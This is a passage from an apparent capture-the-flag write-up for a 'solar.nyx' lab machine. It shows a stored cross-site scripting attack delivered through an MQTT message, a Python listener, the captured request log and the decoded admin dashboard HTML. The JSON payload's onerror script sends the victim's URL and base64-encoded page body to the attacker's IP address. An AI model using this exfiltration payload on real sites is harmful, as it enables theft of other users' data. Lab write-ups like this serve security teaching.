 The session cookie is configured as `HttpOnly`, `Secure`, and with the `SameSite` policy set to `Strict`. We did not find any server-side pages displaying headers (such as the typical `phpInfo();`). It would be challenging to steal another user's cookie, but we could try to see what they are viewing, as CSP headers are not configured.

According to conversations on the `www.sunfriends.nyx` forum, it is highly likely that the user `JulianAdm` is viewing the Dashboard.

We set up a server on port 80 using Python:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And we sent the following `JSON` using `MQTTX` to the `data` topic with our IP address:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?url='+encodeURIComponent(window.location.href)+'&code='+btoa(document.body.outerHTML);})();\"; />",
  "consumedEnergy": 15
}
```

We received at least two requests on our HTTP service on port 80, one from our own IP and another from the machine's IP.

```bash
192.168.1.168 - - [03/Sep/2024 00:18:34] "GET /?url=https%3A%2F%2Fwww.solar.nyx%2Fdashboard.php&code=PGJvZHk+CiAgICA8ZGl2IGNsYXNzPSJkYXNoYm9hcmQiPgogICAgICAgIDxvYmpl ... ZW50LmdldEVsZW1lbnRCeUlkKCdzZW5kLXJlY29yZC1pZCcpLm9uY2xpY2sgPSBzZW5kcmVjb3JkOwogICAgCiAgICA8L3NjcmlwdD4KCgo8L2JvZHk+ HTTP/1.1" 200 -
```

If we decode the base64, we will obtain the following code:

```html
<body>
    <div class="dashboard">
        <object class="solar-icon" data="sun.svg" type="image/svg+xml" style="width:75px;"></object>
        <h1>Solar Energy Dashboard</h1>
        <div class="user-info" id="userInfo"><span>JulianAdm</span><br>admin</div>
        <canvas id="energyChart" class="energy-chart" width="400" height="200" style="display: block; box-sizing: border-box; height: 200px; width: 400px;"></canvas>
        <div class="energy-label"><span class="solar-title">Solar:</span> <span id="solarEnergyLabel" class="energy-value solar"><span class="energy-value solar"><img src="x" onerror="(async () => {location.href='http://192.168.1.116?url='+encodeURIComponent(window.location.href)+'&amp;code='+btoa(document.body.outerHTML);})();" ;=""> kWh</span></span></div>
        <div class="energy-label"><span class="consumed-title">Consumed:</span> <span id="consumedEnergyLabel" class="energy-value consumed"><span class="energy-value consumed">15 kWh</span></span></div>
        <div class="energy-label"><span class="grid-title">Grid:</span> <span id="gridEnergyLabel" class="energy-value grid-positive"><span class="energy-value grid-positive">NaN kWh</span></span></div>
        <a href="/logout.php" class="logout-link" id="logoutLink">Logout</a>
                    <a href="/records/" class="logout-link">Records</a>
            <a href="#" class="logout-link" id="send-record-id">Send record</a>
            </div>

    <!--<script src="/mqtt.min.js"></script>-->
    
    <script src="/chart.js"></script>
    <script type="module">
        import mqtt from '/mqtt.js'
        
        let userName = "JulianAdm";
        let userRole = "admin";
```